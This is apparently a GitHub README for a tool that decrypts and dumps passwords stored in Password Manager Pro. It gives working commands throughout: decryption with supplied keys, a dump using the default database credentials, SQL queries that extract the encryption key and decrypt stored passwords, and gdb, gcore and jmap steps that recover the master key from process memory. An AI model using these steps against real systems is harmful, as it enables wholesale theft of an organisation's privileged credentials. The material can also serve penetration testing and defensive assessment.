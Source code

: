 # PMP-tool

###### summer of hack 2020



Some tools for decrypting/dumping Password Manager Pro passwords  

Dependencies:
 - python3
 - pycryptodome
 - pgpy (Only if you wish to decrypt database encrypted data)


## Decrypter

### Examples

Decrypt passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= --file example/decrypted_passwords.txt
```

Decrypt database-encrypted passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --file example/passwords.txt --encrypted
```

Decrypt a single database-encrypted password:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --password wwwECQECsR/EjgtjwlTSUQFN8qQRmKRB0manYvU++KDTurezkOX5QwcrZEMdHLdTbAm1M2qHTUmB8LE5MZ5wDxtpzBR73p02ifya3QY5nVL/0y05/CSyEl7E+BoxrUn8+g== --encrypted
```

## Dumper

### Installation

```bash
sudo apt-get -y install libpq-dev
pip3 install -r requirements.txt
```

### Examples

Dump all passwords for default DB creds (`postgres:postgres@127.0.0.1:2345/PassTrix`):

```bash
./dumper.py -k XcLyN2ycqDkgHUwCh7ABPDfDCQXMspN2PwLr2LEjfCg=
```

Test if you have the right key:

```bash
./dumper.py -k XcLyN2ycqDkgHUwCh7ABPDfDCQXMspN2PwLr2LEjfCg= -c test
```

## PostgreSQL

You can use this commands (or their MySQL equivalent) to gain some info manually

To get encrypted `DB_ENCRYPTION_KEY` (you can than decrypt it with decrypter):

```SQL
select notesdescription from Ptrx_NotesInfo where noteid = 1;
```

To retrieve encrypted passwords (no database decryption):

```SQL
select encode(password, 'base64') from ptrx_passbasedauthen;
```


To retrieve encrypted passwords:

```SQL
select decryptschar(password, <DB_ENCRYPTION_KEY>) from ptrx_passbasedauthen;
```

OR

```SQL
select pgp_sym_decrypt(password, <DB_ENCRYPTION_KEY>, 's2k-mode=1, cipher-algo=aes256') from ptrx_passbasedauthen;
```

## Memory Dump

If you can execute commands on the host, you can read the PMP key from a file `PMP/conf/pmp_key.key`. However, if the file is removed (according to the deploy instructions), you can try dumping it from memory

**0. Get WrapperSimpleApp PID**

```bash
jps | grep WrapperSimpleApp # Or find it yourself
```

**1. JMAP**

If the host have jdk installed you can simply use Jmap

```bash
jmap -dump:file=dump.dump <process-id>
```

Then analyze the dump with any java heap analyzer tool. For example - [Eclipse Memory Analyzer](https://www.eclipse.org/mat/).  
Load the dump into analyzer (`File -> load heap dump`) and follow `java.net.URLClassLoader -> list objects -> with outgoing references -> classes -> elementData -> <Find the one with class com.adventnet.passtrix.ed.PMPEncryptDecryptImpl> -> pmp32BitKey`

**2. GDB**

**Requires root privileges**

```bash
gdb --batch --pid <process-id> -ex "dump memory mem.dump 0xf5580000 0x100000000" && grep -a -m2 -E "[A-Za-z0-9\+/]{43}=" mem.dump
```

**3. GCORE**

**Requires root privileges**  
Works half of the time `-_0_0_-`

```bash
gcore -a <process-id>
grep -a -E "[A-Za-z0-9\+/]{43}=" core.*
```


